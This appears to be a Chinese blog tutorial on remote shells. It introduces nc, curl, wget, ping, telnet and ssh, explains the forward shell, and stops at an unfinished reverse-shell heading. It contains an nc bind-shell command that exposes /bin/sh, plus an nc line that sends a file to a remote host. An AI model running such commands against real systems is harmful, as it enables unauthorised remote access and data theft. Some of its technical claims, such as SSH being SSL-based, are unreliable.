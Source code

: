 # 如何反弹shell

## linux下常见网络工具🧀

### netcat

netcat也就是平时用的nc，是一种功能丰富的网络调试和调查工具，它可以产生用户可能需要的几乎任何类型的连接，可以连接到远程主机`nc  -nvv Targert_IP  Targert_Port`，监听本地主机`nc  -l  -p  Local_Port`，端口扫描`nc  -v  target_IP  target_Port`、端口监听`nc  -l  -p  local_Port`、远程文件传输`nc  Targert_IP  Targert_Port  <  Targert_File`、正向shell、反向shell等等。

### curl

在Linux中curl是一个利用URL规则在[命令行](https://so.csdn.net/so/search?q=命令行&spm=1001.2101.3001.7020)下工作的文件传输工具，可以说是一款很强大的http命令行工具。它支持文件的上传和下载，是综合传输工具，这个工具可以帮助我们在服务器上很好的模拟http的行为。

### wget

wget是一个下载文件的工具，它用在命令行下。对于Linux用户是必不可少的工具，我们经常要下载一些软件或从远程服务器恢复备份到本地服务器。

### curl和wget的区别

wget是个专职的下载利器，简单，专一，极致；而curl可以下载，但是长项不在于下载，而在于模拟提交web数据，POST/GET请求，调试网页，等等。在下载上，也各有所长，wget可以递归，支持断点；而curl支持URL中加入变量，因此可以批量下载。个人用途上，我经常用wget来下载文件，加 -c选项不怕断网；使用curl 来跟网站的API 交互，简便清晰。

#### ping

ping命令本身处于应用层，相当于一个应用程序，它直接使用网络层的ICMP协议，ping用来检查网络是否通畅或者网络连接速度的命令。

### telnet

telnet协议是TCP/IP协议族的其中之一，是Internet远端登录服务的标准协议和主要方式，常用于网页服务器的远端控制，可供使用者在本地主机执行远端主机上的工作。telnet通常是用来探测指定ip是否开放指定端口。

### ssh

简单来书,ssh 和 telnet 是实现相同的功能 , ssh中 数据是经过加密的,是安全的 , 而 Telnet是明文传输的，ssh 是加密的，基于 SSL 。

## 正向shell如何连接

如果客户端连接服务器端，想要获取服务器端的shell，那么称为正向shell。

**本地主机：**

命令：nc  Targert_IP  Targert_Port 

**目标主机：**

命令：nc  -lvp  Targert_Port  -e  /bin/sh  

## 什么是反弹shell（先去吃个饭回来接着写

